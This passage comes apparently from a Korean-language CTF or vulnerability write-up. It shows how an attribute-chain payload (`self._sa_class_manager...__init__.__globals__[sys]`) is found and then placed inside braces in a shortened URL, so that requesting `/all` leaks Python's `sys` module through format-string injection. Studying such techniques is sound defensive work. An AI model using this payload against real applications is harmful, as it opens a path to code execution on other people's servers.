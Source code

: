 ```python
result = find_sys_from_self(self)
print(result[0])
# self._sa_class_manager._state_constructor._attached.__init__.__globals__[sys]
```

![image.png](images/image-012.png)

이를 토대로 아래의 URL을 단축 URL로 생성한 뒤 URL `/all` 을 요청하면 `sys` 모듈이 조회되는 것을 확인할 수 있습니다.

```python
https://x.com/{self._sa_class_manager._state_constructor._attached.__init__.__globals__[sys]}
```

![image.png](images/image-013.png)
